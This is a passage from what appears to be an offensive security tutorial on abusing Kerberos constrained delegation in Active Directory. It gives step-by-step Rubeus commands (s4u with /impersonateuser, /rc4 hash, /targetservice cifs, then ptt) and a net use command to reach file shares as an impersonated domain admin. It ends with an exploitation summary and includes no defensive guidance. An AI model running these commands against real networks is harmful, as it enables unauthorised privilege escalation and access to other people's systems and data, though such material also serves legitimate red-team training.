 ```powershell
# Perform S4U2Self to impersonate a domain admin
Rubeus.exe s4u /user:ControlledAccount /impersonateuser:DomainAdmin /rc4:<NTLM Hash of Controlled Account> /domain:example.com /sid:S-1-5-21-<DomainSID>
```

In this step:
- `/user`: The account that has constrained delegation enabled (the service account you control).
- `/impersonateuser`: The user you want to impersonate (e.g., a domain admin).
- `/rc4`: The NTLM hash of the controlled account.

This will request a service ticket for the **domain admin** using **S4U2Self**.

#### **3. Using S4U2Proxy to Request Service Tickets for Other Services**

Once you have a service ticket for the impersonated user, you can use **S4U2Proxy** to request tickets for other services (e.g., **CIFS** for file shares, **HTTP** for web services, etc.).

```powershell
# Use S4U2Proxy to request a ticket to access another service (e.g., CIFS)
Rubeus.exe s4u /user:ControlledAccount /impersonateuser:DomainAdmin /rc4:<NTLM Hash of Controlled Account> /domain:example.com /sid:S-1-5-21-<DomainSID> /targetservice:cifs /targetserver:TargetServer
```

In this step:
- `/targetservice`: The service you want to access on behalf of the user (e.g., **cifs** for file shares).
- `/targetserver`: The server hosting the service you want to access.

This command requests a ticket for the **CIFS** service on the specified server using the **domain admin** credentials.

#### **4. Using the Ticket to Access Services**

Now that you have the ticket, you can use it to access the specified service (e.g., a file share) as the impersonated user (e.g., the domain admin).

For example, to apply the ticket and access a file share:

```powershell
# Apply the ticket
Rubeus.exe ptt /ticket:<TicketFile>

# Access the file share (CIFS) as the impersonated domain admin
net use \\TargetServer\ShareName
```

You now have access to the file share or service as the impersonated domain admin.

---

### **Exploitation Summary**

1. **Identify accounts** with constrained delegation using **PowerView**.
2. Use **Rubeus** to exploit **S4U2Self** and impersonate a higher-privileged user (e.g., a domain admin).
3. Use **S4U2Proxy** to request tickets for other services (e.g., CIFS, HTTP) as the impersonated user.
4. Apply the tickets and access services as the higher-privileged user, thereby escalating your privileges.

---